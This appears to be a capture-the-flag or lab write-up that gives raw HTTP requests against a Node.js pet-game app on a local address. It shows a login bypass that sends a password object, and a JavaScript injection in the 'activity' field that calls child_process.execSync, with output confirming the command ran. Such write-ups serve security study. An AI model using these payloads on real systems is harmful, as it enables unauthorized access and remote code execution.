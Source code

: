 ```http
POST /api/login HTTP/1.1
Host: 192.168.1.199:1337
Content-Length: 46
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/103.0.0.0 Safari/537.36
Content-Type: application/json
Accept: */*
Origin: http://192.168.1.199:1337
Referer: http://192.168.1.199:1337/
Accept-Encoding: gzip, deflate
Accept-Language: en-US,en;q=0.9
Connection: close

{"username":"admin","password":{"password":1}}
```

## Code Injection

Payload:

```http
POST /api/activity HTTP/1.1
Host: 192.168.1.199:1337
Content-Length: 150
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/103.0.0.0 Safari/537.36
Content-Type: application/json
Accept: */*
Origin: http://192.168.1.199:1337
Referer: http://192.168.1.199:1337/interface
Accept-Encoding: gzip, deflate
Accept-Language: en-US,en;q=0.9
Cookie: session=eyJhbGciOiJIUzI1NiIsInR5cCI6IkpXVCJ9.eyJ1c2VybmFtZSI6ImFkbWluIiwiaWF0IjoxNjU3MzY1OTM5fQ.ge8fJPqhC0mZv50OX902UBzONUUB4zkmC7cvwCng-mY;
Connection: close

{"activity":"' + (global.process.mainModule.require('child_process').execSync('touch /dev/shm/test'))+'","health":"99","weight":"99","happiness":"99"}
```

Server Response:

```jsx
with(a='' + (global.process.mainModule.require('child_process').execSync('touch /dev/shm/test'))+'', hp=99, w=99, hs=99) {
                if (a == 'feed') { hp += 1; w += 5; hs += 3; } if (a == 'play') { w -= 5; hp += 2; hs += 3; } if (a == 'sleep') { hp += 2; w += 3; hs += 3; } if ((a == 'feed' || a == 'sleep' ) && w > 70) { hp -= 10; hs -= 10; } else if ((a == 'feed' || a == 'sleep' ) && w < 40) { hp += 10; hs += 5; } else if (a == 'play' && w < 40) { hp -= 10; hs -= 10; } else if ( hs > 70 && (hp < 40 || w < 30)) { hs -= 10; }  if ( hs > 70 ) { m = 'kissy' } else if ( hs < 40 ) { m = 'cry' } else { m = 'awkward'; } if ( hs > 100) { hs = 100; } if ( hs < 5) { hs = 5; } if ( hp < 5) { hp = 5; } if ( hp > 100) { hp = 100; }  if (w < 10) { w = 10 } return {m, hp, w, hs}
                }
[Function: anonymous]

...

# ls /dev/shm/
test
```
